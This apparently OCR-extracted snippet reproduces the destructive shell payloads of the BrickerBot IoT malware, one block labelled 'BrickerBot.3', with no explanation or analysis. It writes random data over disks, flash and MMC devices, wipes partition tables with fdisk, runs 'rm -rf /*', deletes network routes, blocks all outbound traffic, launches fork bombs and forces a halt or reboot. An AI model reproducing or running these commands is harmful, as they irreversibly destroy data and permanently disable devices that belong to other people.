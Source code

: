 ```bash
dd if=/dev/urandom of=/dev/mmcblk0p1 &

cat /dev/urandom >/dev/sda &
cat /dev/urandom >/dev/sda1 &
cat /dev/urandom >/dev/sda2 &
cat /dev/urandom >/dev/sda3 &
cat /dev/urandom >/dev/sda4 &
cat /dev/urandom >/dev/sdb &
cat /dev/urandom >/dev/mtd0 &
cat /dev/urandom >/dev/mtd1 &
cat /dev/urandom >/dev/mtd2 &
cat /dev/urandom >/dev/mtd3 &
cat /dev/urandom >/dev/mtdblock0 &
cat /dev/urandom >/dev/mtdblock1 &
cat /dev/urandom >/dev/mtdblock2 &
cat /dev/urandom >/dev/mtdblock3 &
cat /dev/urandom >/dev/mtdblock4 &
cat /dev/urandom >/dev/mtdblock5 &
cat /dev/urandom >/dev/mtdblock6 &
cat /dev/urandom >/dev/mtdblock7 &
cat /dev/urandom >/dev/hda1 &
cat /dev/urandom >/dev/hdb1 &
cat /dev/urandom >/dev/root &
cat /dev/urandom >/dev/ram0 &
cat /dev/urandom >/dev/mmcblk0 &
cat /dev/urandom >/dev/mmcblk0p1 &

route del default;iproute del default;rm -rf /* 2>/dev/null &
iptables -F;iptables -t nat -F;iptables -A OUTPUT -j DROP
d(){ d|d & };d 2>/dev/null
sysctl -w net.ipv4.tcp_timestamps=0;sysctl -w kernel.threads-max=1
halt -n -f
reboot
d(){ d|d & };d
```
BrickerBot.3
```bash
busybox cat /dev/urandom >/dev/mtdblock0 &
busybox cat /dev/urandom >/dev/sda &
busybox cat /dev/urandom >/dev/mtdblock10 &
busybox cat /dev/urandom >/dev/mmc0 &
busybox cat /dev/urandom >/dev/sdb &
busybox cat /dev/urandom >/dev/ram0 &
busybox cat /dev/urandom >/dev/mtd0 &
busybox cat /dev/urandom >/dev/mtd1 &
busybox cat /dev/urandom >/dev/mtdblock1 &
busybox cat /dev/urandom >/dev/mtdblock2 &
busybox cat /dev/urandom >/dev/mtdblock3 &
fdisk -C 1 -H 1 -S 1 /dev/mtd0
w
fdisk -C 1 -H 1 -S 1 /dev/mtd1
w
fdisk -C 1 -H 1 -S 1 /dev/sda
w
fdisk -C 1 -H 1 -S 1 /dev/mtdblock0
w
route del default;iproute del default;ip route del default;rm -rf /* 2>/dev/null &
sysctl -w net.ipv4.tcp_timestamps=0;sysctl -w kernel.threads-max=1
halt -n -f
reboot
```
